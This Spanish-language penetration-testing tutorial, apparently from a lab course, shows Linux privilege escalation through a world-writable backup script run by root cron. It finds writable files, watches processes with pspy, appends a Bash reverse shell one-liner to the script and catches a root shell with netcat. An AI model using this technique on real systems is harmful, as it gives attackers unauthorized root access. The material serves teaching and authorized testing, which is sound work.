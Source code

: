 Los cron jobs también pueden configurarse para ejecutarse una sola vez (como en el arranque). Normalmente se utilizan para tareas administrativas como hacer backups, limpiar directorios, etc. El comando `crontab` puede crear un archivo cron, que será ejecutado por el daemon cron en el horario especificado. Cuando se crea, el archivo cron se guardará en `/var/spool/cron` para el usuario específico que lo crea. Cada entrada en el archivo crontab requiere seis elementos en el siguiente orden: minutos, horas, días, meses, semanas, comandos. Por ejemplo, la entrada `0 */12 * * * /home/admin/backup.sh` se ejecutaría cada 12 horas.

El crontab de root casi siempre solo es editable por el usuario root o un usuario con privilegios sudo completos; sin embargo, aún puede ser abusado. Puedes encontrar un script con permisos de escritura para todos los usuarios que se ejecuta como root y, incluso si no puedes leer el crontab para saber el horario exacto, puedes averiguar con qué frecuencia se ejecuta (es decir, un script de backup que crea un archivo `.tar.gz` cada 12 horas). En este caso, puedes agregar un comando al final del script (como un one-liner de reverse shell), y se ejecutará la próxima vez que se ejecute el cron job.

Algunas aplicaciones crean archivos cron en el directorio `/etc/cron.d` y pueden estar mal configuradas para permitir que un usuario que no es root las edite.

Primero, echemos un vistazo al sistema en busca de archivos o directorios con permisos de escritura. El archivo `backup.sh` en el directorio `/dmz-backups` es interesante y parece que podría estar ejecutándose en un cron job.

```r
find / -path /proc -prune -o -type f -perm -o+w 2>/dev/null

/etc/cron.daily/backup
/dmz-backups/backup.sh
/proc
/sys/fs/cgroup/memory/init.scope/cgroup.event_control

<SNIP>
/home/backupsvc/backup.sh

<SNIP>
```

Un vistazo rápido al directorio `/dmz-backups` muestra lo que parecen ser archivos creados cada tres minutos. Esto parece ser una gran mala configuración. Quizás el sysadmin quiso especificar cada tres horas como `0 */3 * * *` pero en su lugar escribió `*/3 * * * *`, lo que indica que el cron job se ejecute cada tres minutos. El segundo problema es que el script `backup.sh` es editable por todos los usuarios y se ejecuta como root.

```r
ls -la /dmz-backups/

total 36
drwxrwxrwx  2 root root 4096 Aug 31 02:39 .
drwxr-xr-x 24 root root 4096 Aug 31 02:24 ..
-rwxrwxrwx  1 root root  230 Aug 31 02:39 backup.sh
-rw-r--r--  1 root root 3336 Aug 31 02:24 www-backup-2020831-02:24:01.tgz
-rw-r--r--  1 root root 3336 Aug 31 02:27 www-backup-2020831-02:27:01.tgz
-rw-r--r--  1 root root 3336 Aug 31 02:30 www-backup-2020831-02:30:01.tgz
-rw-r--r--  1 root root 3336 Aug 31 02:33 www-backup-2020831-02:33:01.tgz
-rw-r--r--  1 root root 3336 Aug 31 02:36 www-backup-2020831-02:36:01.tgz
-rw-r--r--  1 root root 3336 Aug 31 02:39 www-backup-2020831-02:39:01.tgz
```

Podemos confirmar que un cron job se está ejecutando utilizando [pspy](https://github.com/DominicBreuker/pspy), una herramienta de línea de comandos utilizada para ver procesos en ejecución sin necesidad de privilegios de root. Podemos usarla para ver comandos ejecutados por otros usuarios, cron jobs, etc. Funciona escaneando [procfs](https://en.wikipedia.org/wiki/Procfs).

Vamos a ejecutar `pspy` y echar un vistazo. La bandera `-pf` le dice a la herramienta que imprima comandos y eventos del sistema de archivos, y `-i 1000` le indica que escanee [procfs](https://man7.org/linux/man-pages/man5/procfs.5.html) cada 1000ms (o cada segundo).

```r
./pspy64 -pf -i 1000

pspy - version: v1.2.0 - Commit SHA: 9c63e5d6c58f7bcdc235db663f5e3fe1c33b8855


     ██▓███    ██████  ██▓███ ▓██   ██▓
    ▓██░  ██▒▒██    ▒ ▓██░  ██▒▒██  ██▒
    ▓██░ ██▓▒░ ▓██▄   ▓██░ ██▓▒ ▒██ ██░
    ▒██▄█▓▒ ▒  ▒   ██▒▒██▄█▓▒ ▒ ░ ▐██▓░
    ▒██▒ ░  ░▒██████▒▒▒██▒ ░  ░ ░ ██▒▓░
    ▒▓▒░ ░  ░▒ ▒▓▒ ▒ ░▒▓▒░ ░  ░  ██▒▒▒ 
    ░▒ ░     ░ ░▒  ░ ░░▒ ░     ▓██ ░▒░ 
    ░░       ░  ░  ░  ░░       ▒ ▒ ░░  
                   ░           ░ ░     
                               ░ ░     

Config: Printing events (colored=true): processes=true | file-system-events=true ||| Scannning for processes every 1s and on inotify events ||| Watching directories: [/usr /tmp /etc /home /var /opt] (recursive) | [] (non-recursive)
Draining file system events due to startup...
done
2020/09/04 20:45:03 CMD: UID=0    PID=999    | /usr/bin/VGAuthService 
2020/09/04 20:45:03 CMD: UID=111  PID=990    | /usr/bin/dbus-daemon --system --address=systemd: --nofork --nopidfile --systemd-activation 
2020/09/04 20:45:03 CMD: UID=0    PID=99     | 
2020/09/04 20:45:03 CMD: UID=0    PID=988    | /usr/lib/snapd/snapd 

<SNIP>

2020/09/04 20:45:03 CMD: UID=0    PID=1017   | /usr/sbin/cron -f 
2020/09/04 20:45:03 CMD: UID=0    PID=1010   | /usr/sbin/atd -f 
2020/09/04 20:45:03 CMD: UID=0    PID=1003   | /usr/lib/accountsservice/accounts-daemon 
2020/09/04 20:45:03 CMD: UID=0    PID=1001   | /lib/systemd/systemd-logind 
2020/09/04 20:45:03 CMD: UID=0    PID=10     | 
2020/09/04 20:45:03 CMD: UID=0    PID=1      | /sbin/init 
2020/09/04 20:46:01 FS:                 OPEN | /usr/lib/locale/locale-archive
2020/09/04 20:46:01 CMD: UID=0    PID=2201   | /bin/bash /dmz-backups/backup.sh 
2020/09/04 20:46:01 CMD: UID=0    PID=2200   | /bin/sh -c /dmz-backups/backup.sh 
2020/09/04 20:46:01 FS:                 OPEN | /usr/lib/x86_64-linux-gnu/gconv/gconv-modules.cache
2020/09/04 20:46:01 CMD: UID=0    PID=2199   | /usr/sbin/CRON -f 
2020/09/04 20:46:01 FS:                 OPEN | /usr/lib/locale/locale-archive
2020/09/04 20:46:01 CMD: UID=0    PID=2203   | 
2020/09/04 20:46:01 FS:        CLOSE_NOWRITE | /usr/lib/locale/locale-archive
2020/09/04 20:46:01 FS:                 OPEN | /usr/lib/locale/locale-archive
2020/09/04 20:46:01 FS:        CLOSE_NOWRITE | /usr/lib/locale/locale-archive
2020/09/04 20:46:01 CMD: UID=0    PID=2204   | tar --absolute-names --create --gzip --file=/dmz-backups/www-backup-202094-20:46:01.tgz /var/www/html 
2020/09/04 20:46:01 FS:                 OPEN | /usr/lib/locale/locale-archive
2020/09/04 20:46:01 CMD: UID=0    PID=2205   | gzip 
2020/09/04 20:46:03 FS:        CLOSE_NOWRITE | /usr/lib/locale/locale-archive
2020/09/04 20:46:03 CMD: UID=0    PID=2206   | /bin/bash /dmz-backups/backup.sh 
2020/09/04 20:46:03 FS:        CLOSE_NOWRITE | /usr/lib/x86_64-linux-gnu/gconv/gconv-modules.cache
2020/09/04 20:46:03 FS:        CLOSE_NOWRITE | /usr/lib/locale/locale-archive
```

Del resultado anterior, podemos ver que un cron job ejecuta el script `backup.sh` ubicado en el directorio `/dmz-backups` y crea un archivo tarball del contenido del directorio `/var/www/html`.

Podemos mirar el script shell y agregarle un comando para intentar obtener un reverse shell como root. Si editamos un script, asegúrate de `SIEMPRE` tomar una copia del script y/o crear un backup del mismo. También deberíamos intentar agregar nuestros comandos al final del script para que siga funcionando correctamente antes de ejecutar nuestro comando de reverse shell.

```r
cat /dmz-backups/backup.sh 

#!/bin/bash
 SRCDIR="/var/www/html"
 DESTDIR="/dmz-backups/"
 FILENAME=www-backup-$(date +%-Y%-m%-d)-$(date +%-T).tgz
 tar --absolute-names --create --gzip --file=$DESTDIR$FILENAME $SRCDIR
```

Podemos ver que el script solo toma un directorio fuente y un directorio de destino como variables. Luego especifica un nombre de archivo con la fecha y hora actual del backup y crea un archivo tarball del directorio fuente, el directorio raíz web. Vamos a modificar el script para agregar un [one-liner de reverse shell en Bash](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet).

```r
#!/bin/bash
SRCDIR="/var/www/html"
DESTDIR="/dmz-backups/"
FILENAME=www-backup-$(date +%-Y%-m%-d)-$(date +%-T).tgz
tar --absolute-names --create --gzip --file=$DESTDIR$FILENAME $SRCDIR
 
bash -i >& /dev/tcp/10.10.14.3/443 0>&1
```

Modificamos el script, levantamos un listener local de `netcat`, y esperamos. Seguro, dentro de tres minutos, tenemos un shell root.

```r
nc -lnvp 443

listening on [any] 443 ...
connect to [10.10.14.3] from (UNKNOWN) [10.129.2.12] 38882
bash: cannot set terminal process group (9143): Inappropriate ioctl for device
bash: no job control in this shell

root@NIX02:~# id
id
uid=0(root) gid=0(root) groups=0(root)

root@NIX02:~# hostname
hostname
NIX02
```

Aunque no es el ataque más común, encontramos cron jobs mal configurados que pueden ser abusados de vez en cuando.